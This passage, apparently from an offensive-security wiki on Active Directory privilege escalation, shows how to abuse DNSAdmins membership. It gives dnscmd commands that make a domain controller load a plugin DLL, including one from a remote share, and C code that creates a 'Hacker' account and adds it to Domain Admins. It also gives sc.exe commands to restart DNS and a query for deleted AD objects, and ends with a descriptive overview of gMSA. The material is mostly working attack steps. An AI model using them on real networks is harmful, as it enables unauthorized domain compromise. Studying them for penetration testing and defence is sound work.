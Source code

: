 ```text
dnscmd [dc.computername] /config /serverlevelplugindll c:\path\to\DNSAdmin-DLL.dll
dnscmd [dc.computername] /config /serverlevelplugindll \\1.2.3.4\share\DNSAdmin-DLL.dll
```

An example of a valid DLL can be found in [https://github.com/kazkansouh/DNSAdmin-DLL](https://github.com/kazkansouh/DNSAdmin-DLL). I would change the code of the function `DnsPluginInitialize` to something like:

```c
DWORD WINAPI DnsPluginInitialize(PVOID pDnsAllocateFunction, PVOID pDnsFreeFunction)
{
        system("C:\\Windows\\System32\\net.exe user Hacker T0T4llyrAndOm... /add /domain");
        system("C:\\Windows\\System32\\net.exe group \"Domain Admins\" Hacker /add /domain");
}
```

So, when the **DNSservice** start or restart, a new user will be created.

Even having a user inside DNSAdmin group you **by default cannot stop and restart the DNS service.** But you can always try doing:

```csharp
sc.exe \\dc01 stop dns
sc.exe \\dc01 start dns
```

\*\*\*\*[**Learn more about this privilege escalation in ired.team.**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise)

## **AD Recycle Bin**

This group gives you permission to read deleted AD object. Something juicy information can be found in there:

```bash
#This isn't a powerview command, it's a feature from the AD management powershell module of Microsoft
#You need to be in the "AD Recycle Bin" group of the AD to list the deleted AD objects
Get-ADObject -filter 'isDeleted -eq $true' -includeDeletedObjects -Properties *
```

## Group Managed Service Accounts \(gMSA\)

In most of the infrastructures, service accounts are typical user accounts with “**Password never expire**” option. Maintaining these accounts could be a real mess and that's why Microsoft introduced **Managed Service Accounts:**

* No more password management. It uses a complex, random, 240-character password and changes that automatically when it reaches the domain or computer password expire date. 
  * It is uses Microsoft Key Distribution Service \(KDC\) to create and manage the passwords for the gMSA.
* It cannot be lock out or use for interactive login
* Supports to share across multiple hosts
* Can use to run schedule tasks \(Managed service accounts do not support to run schedule tasks\)
* Simplified SPN Management – System will automatically change the SPN value if **sAMaccount** details of the computer change or DNS name property change.
